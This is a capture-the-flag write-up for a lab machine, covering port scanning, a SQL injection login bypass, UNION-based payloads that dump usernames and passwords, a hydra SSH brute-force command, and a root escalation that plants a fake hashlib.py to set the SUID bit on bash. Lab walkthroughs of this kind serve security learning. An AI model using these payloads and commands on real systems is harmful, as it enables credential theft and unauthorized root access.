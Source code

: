 # Enumeration
Let's use rustscan to quickly find any open ports. We find ports 22 and 8000 are open.

![071089ebe5a7fe657090b088c13b666a.png](./_resources/071089ebe5a7fe657090b088c13b666a.png)

Checking with a full nmap scan confirms this. We follow this up with a detailed scan.

![484c527bec782079786900f91b6aa446.png](./_resources/484c527bec782079786900f91b6aa446.png)

![cd2317a9b192ae4c9ed0794fc46bbaf0.png](./_resources/cd2317a9b192ae4c9ed0794fc46bbaf0.png)

Let's check out the web server on port 8000. We find a login form, together with a link for a registration form.

![a1e225bd02651f9c800c3efa1944263e.png](./_resources/a1e225bd02651f9c800c3efa1944263e.png)

We can make an account and use this to login. We're greeted with an index page, and nothing else.

At this point, we don't have much to work with besides the login form. Gobuster doesn't find any interesting directories, and we can't make use of ssh. One thing we can do is try SQL injection. Let's use the input  `' or 1=1 -- -` for both the username and password.

![6a2dab17253c64ce19ace00bf2998aa1.png](./_resources/6a2dab17253c64ce19ace00bf2998aa1.png)

Success! This confirms that the web server is using SQL to pull user information. In this case, we were able to extract a username.
<br>

# Exploitation
Now let's use SQL injection to try and extract some credentials from the current table. To make this easier, we'll use BurpSuite and send the login request to Repeater in order to see the output of our injection.

![c6cbab9e89527fda60cbf8fc62a68afa.png](./_resources/c6cbab9e89527fda60cbf8fc62a68afa.png)

![f2a6da01821ff5fc6e47e8b3d9d7c884.png](./_resources/f2a6da01821ff5fc6e47e8b3d9d7c884.png)

Note: We can use any input for the password in the above screenshot, and we still get access to smokey's access. So our payload will always be inserted in the username field.

We want to begin by enumerating the columns in the table where smokey's credentials are presumably stored. We do this by using `' UNION SELECT' 1,...,n-- -`, where n is our guess for the number of columns. Starting at 1 and incrementing, we eventually get a hit with `' UNION SELECT 1,2,3,4--`.

![5f07cd18abbba0765b55a5807ed44762.png](./_resources/5f07cd18abbba0765b55a5807ed44762.png)

This tells us we have four columns. Note that the '2' appears in the username field, so this suggests the second column contains usernames. The first column is presumably the user id, and the remaining columns are likely the user's password and email. We enumerate databases > tables > columns. To get the databases, we use:

```SQL
' UNION SELECT 1, (select group_concat(SCHEMA_NAME) from Information_Schema.SCHEMATA) ,3,4 FROM information_schema.tables-- -
```

![f2502bc6580c7bd0eb78fafdaf89a8ed.png](./_resources/f2502bc6580c7bd0eb78fafdaf89a8ed.png)

So we have the standard `information_schema` database together with the `website` database; the latter will be more relevant for us. Now we'll get the table name using:

```SQL
' UNION SELECT 1, (select group_concat(TABLE_NAME) from Information_Schema.TABLES where TABLE_SCHEMA = 'website') ,3,4 FROM information_schema.tables-- -
```

![bf7d6491b51c08a5ce6cd61ac4121ada.png](./_resources/bf7d6491b51c08a5ce6cd61ac4121ada.png)

So we are looking in the `users` table within the `website` database. (Note: The target IP changes from this point on, since I accidentally terminated the machine.) Now we enumerate the columns:

```SQL
' UNION SELECT 1, (select group_concat(COLUMN_NAME) from Information_Schema.COLUMNS where TABLE_SCHEMA = 'website') ,3,4 FROM information_schema.tables-- -
```

![fa19f6aa711d40b63f047ee45437c113.png](./_resources/fa19f6aa711d40b63f047ee45437c113.png)

As expected, we have columns for the user id, username, password, and email. Finally, we can extract the usernames and passwords from the database with:

```SQL
' UNION SELECT 1, (select group_concat(username, password) from website.users) ,3,4 FROM information_schema.tables-- -
```

![4c68014e6f17d632bacb2ad32738b9c8.png](./_resources/4c68014e6f17d632bacb2ad32738b9c8.png)

Succes! We've obtained smokey's password using SQL injection. Note: The "testuser" is a user I added when messing with the registration form. Since this new user was added to the users table, we should expect to see their credentials along with smokey's.

We can now ssh into smokey's account, thus giving us an initial foothold.

![1ab7276d2ac45b246a60c9045123c34f.png](./_resources/1ab7276d2ac45b246a60c9045123c34f.png)

We find the `user.txt` flag. Unfortunately, it is in another user's directory, and we don't have read privileges.

![2b800881671674d19196735a4c5d84fe.png](./_resources/2b800881671674d19196735a4c5d84fe.png)

However, we now know the name of another user: hazel. We can try to brute force hazel's ssh login using hydra:

```
hydra -l hazel -P /usr/share/wordlists/rockyou.txt 10.10.255.238 -t 4 ssh
```

Here we use `-t` to specify the number of tasks to run in parallel. Hydra suggests using 4 for ssh, so we'll go with that.

After a very long time, we eventually find hazel's password.

![a4de9e8a98637df12a2c4cf5a613b263.png](./_resources/a4de9e8a98637df12a2c4cf5a613b263.png)

It turns out that hazel's password is extremely easy to guess. Given that the hydra attack lasted over an hour for me, I assume that this is not the intended route. Rather, one should try some (painfully) obvious passwords when finding a new user.

In any case, this gives us access to hazel's file system. We find the `user.txt` flag in hazel's home directory.

![f88c9455423caac83515090d1ebc9aab.png](./_resources/f88c9455423caac83515090d1ebc9aab.png)
<br>

# Post-Exploitation
Let's start by using `sudo -l` to see what hazel can run as root.

![553d821b738b10ee0f0fb6483259d220.png](./_resources/553d821b738b10ee0f0fb6483259d220.png)

In hazel's home directory, we find the python script `hasher.py` referenced above. Note that we can run the python script as sudo, as indicated above, and we can set the environment.

![5ca790d9b0cfb3e1ce1713364658294f.png](./_resources/5ca790d9b0cfb3e1ce1713364658294f.png)

The script itself doesn't do much for us (it just prints some hashes of an input we give), but notice that the first line imports the hashlib library. We can use this to our advantage by creating our own `hashlib.py` script. The contents are:

```  
import os
os.system('chmod u+s /bin/bash')
```

This script sets the SUID bit for `/bin/bash`, which we can then use for privesc. Note that we have to `cd` into the `/tmp` directory first, since we don't have write permissions in hazel's home directory. Now run `
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py`. We will get an error, but the SUID bit will be set. We then run `/bin/bash -p` to spawn a root shell.

![ee415523d411d308382039280d18ecd0.png](./_resources/ee415523d411d308382039280d18ecd0.png)

From here, we find the `root.txt` flag in the usual place.

![a4269009ce07c84552cb68d963d6efe9.png](./_resources/a4269009ce07c84552cb68d963d6efe9.png)